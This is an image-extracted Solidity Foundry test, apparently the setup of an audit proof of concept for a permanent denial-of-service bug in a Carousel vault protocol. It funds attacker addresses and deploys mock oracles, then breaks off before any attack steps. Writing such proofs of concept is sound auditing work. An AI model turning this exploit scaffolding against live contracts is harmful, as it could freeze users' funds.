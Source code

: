 ```solidity
import {ControllerPeggedAssetV2} from "src/v2/Controllers/ControllerPeggedAssetV2.sol";

contract TestPermanentDOS is Test {
    // protocol users
    address admin = makeAddr('admin'); // project admin
    address attacker1 = makeAddr('attacker1'); // attacker addresses
    address attacker2 = makeAddr('attacker2');
    address user1 = makeAddr('user1'); // other user addresses
    address user2 = makeAddr('user2');
    address user3 = makeAddr('user3');

    WETH weth;
    TokenMock emissionsToken;
    OracleMock sequencerFeed;
    OracleMock priceFeed;

    CarouselFactory carouselFactory;
    ControllerPeggedAssetV2 controllerPeggedAssetV2;
    Carousel premiumVault;
    Carousel collateralVault;
    
    uint256 epochId1;
    uint256 epochId2;
    uint256 marketId;

    /// configuring starting state for showing bug/exploit
    function setUp() public {
        vm.deal(attacker1, 100 ether);
        vm.deal(attacker2, 100 ether);
        vm.deal(user1,100 ether);
        vm.deal(user2,100 ether);
        vm.deal(user3,100 ether);

        vm.startPrank(admin); // admin setting up starting project state
        vm.warp(10_000); // to mock that sequencer is up

        weth = new WETH();
        emissionsToken = new TokenMock();
        emissionsToken.mint(admin,10_000e18); // admin is used as treasury

        carouselFactory = new CarouselFactory(
            address(weth),admin,admin,address(emissionsToken)
        );
        emissionsToken.approve(address(carouselFactory),type(uint256).max);

        sequencerFeed = new OracleMock();
        sequencerFeed.setData(1,0,0,0,1); // sequencer is up

        priceFeed = new OracleMock();
        priceFeed.setData(1,1e8,0,0,1); // setting price for asset, decimals=8

        controllerPeggedAssetV2 = new ControllerPeggedAssetV2(
            address(carouselFactory),address(sequencerFeed),admin
        );

        carouselFactory.whitelistController(address(controllerPeggedAssetV2));

        // creating a new market:
        CarouselFactory.CarouselMarketConfigurationCalldata memory config = 
            CarouselFactory.CarouselMarketConfigurationCalldata({
                token: address(1), // arbitrary, just for lookup to oracle
                strike: 99e17,
                oracle: address(priceFeed),
```
